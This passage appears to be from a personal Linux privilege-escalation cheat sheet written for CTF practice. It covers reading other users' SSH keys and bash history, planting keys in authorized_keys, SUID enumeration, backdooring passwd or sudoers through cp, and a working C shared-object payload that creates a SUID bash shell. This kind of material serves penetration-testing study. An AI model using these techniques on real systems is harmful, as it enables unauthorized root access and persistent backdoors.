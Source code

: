       - /home/*/.ssh/authorized_keys - if this file is writeable, we can add our own public key to it. Also, If we can make a directory of .ssh and then create an authorized_key file for the user.
      - /home/*/.bash_history - useful for seeing if a user typed a password on the command line, or any other useful information.
      
      IT IS WORTH NOTING: When a directory is executable but not readable, we must know which files are in there to be able to gaina ccess to them - a simple 'ls' command will not work in showing us the files inside. It is worth trying to list all users id_rsa files in /home/user/.ssh/id_rsa, just in case they have set permissions incorrectly so that everyone may read this file. Likewise, checking to see if we can write to their authorized_keys file in the same directory is just as crucial, as we may be able to get ourselves a backdoor this way (as discussed above).


### *Suid Files:* ###
List all files that you can access that have SUID permissions
```bash
find / -perm -4000 2>/dev/null
```
Check on https://gtfobins.github.io/ for anything useful. 
Sometimes the results will contain something cutsom which you can go on to enumerate, reverse engineer, and exploit.


One interesting idea with suid came about when exploiting this room: https://tryhackme.com/jr/zsecurityctf1 on Try Hack Me. When you have higher permissions on the cp command, you can create your own version of the passwd file, or sudoers file, and then add yourself a backdoor in (whether a backdor user in the case of the passwd file, adjusting a users group in the passwd file, or giving them sudo permissions to execute a vulnerable binary as root). The same can apply with sudo.


### *Shared Object Injection:* ###
When a file has SUID permissions, or sudo permissions, we can potentially use it to priv esc. If no GTFO bin exists, and we cnanot exploit in another way, then we can use 'strace' to find out what a binary is actually doing, and look for specific things. We are looking for what it is trying to access, but failing to.

```bash
strace /usr/local/bin/suid-binary 2>&1 | grep "open|access|no such file"
```

We are looking for read write access to a particular file that is being loaded in (.so files). We can replace the code within the file (or create a file if it cannot be found), with our own malicious code:
```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
  system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash"); //creates a suid copy of the bash binary in /tmp/bash
}

//compile with 'gcc -shared -fPIC -o file.so file.c'
```
